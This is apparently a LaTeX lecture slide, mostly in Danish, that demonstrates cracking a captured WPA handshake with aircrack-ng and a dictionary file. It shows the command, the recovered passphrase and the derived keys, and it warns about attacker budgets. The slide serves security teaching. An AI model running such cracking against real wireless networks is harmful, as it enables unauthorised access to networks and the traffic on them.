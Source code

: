 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\centerline{Brug manualsiderne for programmerne i aircrack-ng pakken!}


\begin{alltt}
\small
slax ~ # aircrack-ng -w dict wlan-test.cap
Opening wlan-test.cap
Read 1082 packets.

#  BSSID              ESSID           Encryption

1  00:11:24:0C:DF:97  wlan            WPA (1 handshake)
2  00:13:5F:26:68:D0  Noea            No data - WEP or WPA
3  00:13:5F:26:64:80  Noea            No data - WEP or WPA
4  00:00:00:00:00:00                  Unknown

Index number of target network ? {\bf 1}
\end{alltt}


\begin{alltt}
\small
          [00:00:00] 0 keys tested (0.00 k/s)

                    KEY FOUND! [ Henrik42 ]

Master Key     : 8E 61 AB A2 C5 25 4D 3F 4B 33 E6 AD 2D 55 6F 76
                 6E 88 AC DA EF A3 DE 30 AF D8 99 DB F5 8F 4D BD
Transcient Key : C5 BB 27 DE EA 34 8F E4 81 E7 AA 52 C7 B4 F4 56
                 F2 FC 30 B4 66 99 26 35 08 52 98 26 AE 49 5E D7
                 9F 28 98 AF 02 CA 29 8A 53 11 EB 24 0C B0 1A 0D
                 64 75 72 BF 8D AA 17 8B 9D 94 A9 31 DC FB 0C ED

EAPOL HMAC     : 27 4E 6D 90 55 8F 0C EB E1 AE C8 93 E6 AC A5 1F

\end{alltt}

 cm

\centerline{Min Thinkpad X31 med 1.6GHz Pentium M knækker ca. 150 Keys/sekund}


Old, but think about your attackers and their budgets!

Kilde: 



\end{document}
